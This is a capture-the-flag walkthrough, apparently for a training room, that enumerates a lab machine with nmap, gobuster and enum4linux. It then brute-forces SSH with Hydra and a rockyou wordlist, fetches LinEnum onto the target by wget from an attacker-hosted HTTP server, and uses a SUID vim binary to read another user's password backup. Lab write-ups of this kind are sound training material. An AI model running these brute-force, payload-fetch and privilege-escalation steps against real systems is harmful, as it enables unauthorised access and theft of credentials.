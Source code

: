Find the services exposed by the machine

This time I decided to use the following command:

nmap -sC -sV -oN nmap -p- <target ip>
The open ports are:


Port mapping!
We can see a SSH service, SMB, a webserver, in addition to Jserv and Tomcat.

And the script results:


Nmap script results
Answer: No answer needed

What is the name of the hidden directory on the web server(enter name without /)?

There is a web server running on port 80:


Visiting the home page
We can take a look at the source code:


Looking at the source code
Dev section…hmm.

Let’s search for hidden directories by using dirbuster or gobuster. We will use gobuster here. We can use the following command:

gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u <target ip>

Using gobuster
We found found a development page. Maybe this is the one referred to in the source code!

Answer: development

User brute-forcing to find the username & password

Let’s have a look at the page we found:


Accessing the development page
Interesting. We get to see the files in the directory. Let’s have a look at both:

dev.txt:


Reading dev.txt
j.txt:


Reading j.txt
A bunch of info here. We learn about Apache and SMB, but more importantly the author of dev.txt mentions Apache Struts, which is a Java Web Application framework. In addition he mentions version 2.5.12 and that he used a REST version.

In the other file we get a hint about weak credentials found in the /etc/shadow file.

But we don’t have access to to the system yet!

Remember back from the port scanning that we discovered SMB? Let’s enumerate that. We do this with the following command:

enum4linux <target ip>
This gives us a bunch of info on the SMB service:


Running enum4linux
We can see that anonymous access is possible using ‘’ as username and ‘’ as password. A bit further below we read the following lines:


Discovered two user accounts
Jan and Kay. Sure sounds like the users mentioned in j.txt. So we can pretty much conclude that Jan has a weak password.

Let’s try bruteforce Jan’s account with Hydra! We can use the following command:

hydra -l jan -P /usr/share/wordlists/rockyou.txt ssh://<target ip>
Let it run for a bit and you will find the answer:


Cracking Jan’s SSH access
Armando!

Answer: No answer needed

What is the username?

Answer: jan

BONUS:

We could also have figured this out by accessing the anonymous share through smbclient:


Accessing the SMB anonymous share
If we read this txt file:


Reading staff.txt
What is the password?

See above to find the cracked password.

Answer: armando

What service do you use to access the server(answer in abbreviation in all caps)?

We have seen a SSH service running.

Answer: SSH

Enumerate the machine to find any vectors for privilege escalation

We can now login with SSH. We can use the following command:

ssh jan@<ip>
Then write the password when prompted. We get access to jan’s home directory:


Logging into SSH
If we look a bit further we can get into Kay’s home directory as well:


Finding Kay’s home directory
We can see pass.bak, which is a backup of some kind. Maybe a password?

To be able to get escalated privileges we can use a tool such as LinEnum to get more info on possible attack vectors. We need to do the following:

Download LinEnum from here: https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
You can copy the RAW text and enter it into a file called LinEnum.
Startup a simple Python web server from the directory of the new file: python -m http.server 8000.
Download the file from the target machine: wget http://<attacker ip>:8000/LinEnum
You need to give yourself executable privileges on the file: chmod +x LinEnum
Run it!
Alternatively you can use scp to copy it over!

Read through the results. I will paste a few interesting tidbits here:


LinEnum admin user results
We can see that Kay is an admin.


Can we write/write sensitive files?
We can read the passwd file, but not the shadow file.


Possibly interesting SUID file
Now this is interesting. Vim.basic is a SUID file, meaning we can run it with root privileges. Now we can use vim to read the pass.bak file from earlier!


Reading the pass.bak file
This is actually the answer to the final question!

We can now change user with the new password:


Switching user account to kay
Answer: No answer needed

What is the name of the other user you found(all lower case)?

Answer: kay